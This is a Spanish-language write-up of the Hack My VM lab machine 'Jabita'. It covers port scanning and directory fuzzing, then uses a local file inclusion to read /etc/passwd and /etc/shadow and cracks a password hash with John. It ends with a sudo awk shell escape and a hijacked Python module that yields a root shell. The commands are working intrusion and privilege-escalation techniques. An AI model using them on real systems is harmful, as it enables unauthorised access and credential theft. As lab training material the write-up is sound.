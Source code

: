 ```yaml
---
layout: post
title: Jabita
date: 2022-11-27
categories: ["HMV", "Enumeration"]
thumbnail: "assets/images/Jabita.png"
---
```


# Jabita [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.115 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.115 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Una vez entramos en la página vemos un texto sin relevancia, como no vemos ningún hipervínculo ni comentarios en el código de la página pazaremos a `fuzzear` la página, para ello utilizaremos `WFuzz`, una herramienta hecha en `Python` que nos ayudará en la búsqueda de directorios.
- `wfuzz -u "http://192.168.1.115/FUZZ" -w directory-list-2.3-medium.txt --hc 404`

Tras esperar unos segundos veremos un resultado, `building`. Si inspeccionamos la página veremos que ahora sí hay algo más, arriba vemos tres hipervínculos, los cuales tienen un parámetro que nos llama la atención, `page=`, vamos a ver si es vulnerable a `LFI`.

- `curl http://192.168.1.115/building/index.php?page=/etc/passwd`

```
[...]
root:x:0:0:root:/root:/bin/bash
[...]
jack:x:1001:1001::/home/jack:/bin/bash
jaba:x:1002:1002::/home/jaba:/bin/bash
```

Bien! Vemos que sí es vulnerable! Tras un intento fallido de listar la `id_rsa` de los usuarios `jack` y `jaba` por curiosidad probé con `/etc/shadow`, un archivo el cual (generalmente) está protegido, aunque no es el caso.

```
[...]
jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7:::
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7:::
```

Además el hash de `root` (el cual no es crackeable) vemos otros dos hashes, el de `jack` y el de `jaba` (tampoco es crackeable), por lo que vamos a copiarnos esa información y con `John` crackear la contraseña de `Jack`.

- `john hash.txt -w=/usr/share/wordlists/rockyou.txt`

Bien! `John` ha sido capaz de crackear al contraseña (`jack:joaninha`)!

### Subida de privilegios #1
Bien, ahora que ya estamos en la máquina por `SSH` tenemos que convertirnos en `jaba` para luego poder convertirnos en `root`, para ello comenzé por hacer `sudo -l`:

```
Matching Defaults entries for jack on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jack may run the following commands on jabita:
    (jaba : jaba) NOPASSWD: /usr/bin/awk
```

Como vemos `Jack` puede ejecutar `AWK` como el usuario `Jaba` sin proporcionar contraseña, para poder explotarlo nos vamos a [`GTFObins`](https://gtfobins.github.io/gtfobins/awk/#sudo), el cual nos dice cómo hacerlo.

- `sudo -u jaba awk 'BEGIN {system("/bin/sh")}'`

Estupendo! Ya estamos en la máquina como `Jaba`!

### Subida de privilegios #2
Bien, ahora que ya hemos escalado privilegios ya podemos pasar a ser `root`, para ello vuelvo a ejecutar `sudo -l`.

```
Matching Defaults entries for jaba on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jaba may run the following commands on jabita:
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```

Como vemos podemos ejecutar con `Python` un `script` llamado `clean.py` como `root`. Si lo ejecutamos sólo nos saldrá un simple `Hello`. Por desgracia no podemos escribir en este archivo, pero vemos que está importando un módulo llamado `wild`, vamos a buscarlo:

- `find / -iname wild.py 2>/dev/null`

```
/usr/lib/python3.10/wild.py
```

Vemos que nos ha salido un resultado, si abrimos el archivo veremos lo siguiente:

```Python
def first():
    print("Hello")
```

Vemos que concuerda y además podemos escribir, por lo que podemos hacer que nos otorgue una Shell añadiendo lo siguiente:

```Python
def first():
    print("Hello")
import os
os.system("/bin/bash")
```

Bien! Tras volver a ejecutar el fichero como `root` hemos podido ganar la Shell! Qué fácil!
